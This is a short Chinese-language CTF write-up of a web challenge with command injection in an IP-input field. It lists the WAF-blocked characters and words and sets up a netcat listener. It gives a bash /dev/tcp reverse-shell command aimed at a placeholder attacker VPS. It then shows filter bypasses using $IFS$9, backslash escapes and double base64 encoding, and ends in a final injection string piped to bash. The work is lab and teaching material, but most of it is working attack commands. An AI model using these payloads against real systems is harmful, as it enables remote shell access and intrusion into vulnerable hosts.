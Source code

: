 ![](<./img/Pasted image 20230125095243.png>)

![](<./img/Pasted image 20230125095259.png>)

尝试输入正常ip

```
127.0.0.1
```

```
Success
```

输入奇怪的ip

```
abclol
```

```
Failed
```

经过测试WAF把这些东西ban掉了

```
;
flag
cat
tac
<space>
+
echo
sh
<
>
```

似乎只有`Success`和`Failed`的回显，由命令的`exit_code`决定，一开始想通过类似SQL布尔盲注的形式跑脚本，然后发现自己不会写`bash`字符串截取和比较qaq

于是走了反弹`shell`

vps上监听`2333`端口

```shell
nc -lvvp 2333
```

总的来说要在靶机上执行这个

```shell
bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"
```

空格可以通过`$IFS$9`绕过，对单词的过滤也可以通过反斜杠绕过

对`<`、`>`的过滤通过`base64`编码绕过

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64
```

![](<./img/Pasted image 20230125101455.png>)

编码结果里面出现了加号，依然绕不过，因而尝试二次编码

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64 | base64
```

![](<./img/Pasted image 20230125101701.png>)

这下没有了，但是非常脸黑地编码结果中刚好有被过滤的单词，懒得一个一个找直接一锅端了

```
a&ec\ho$IFS$9\W\W\1\G\e\m...\Q\z\h\5\T\X\p\N\e\k\l\E\Q\S\t\K\a\k\V\p\Q\2\c\9\P\Q\o\=|base64$IFS$9-d|base64$IFS$9-d|bas\h
```

![](<./img/Pasted image 20230125102444.png>)

#Web #RCE #反弹shell #绕过 #shell 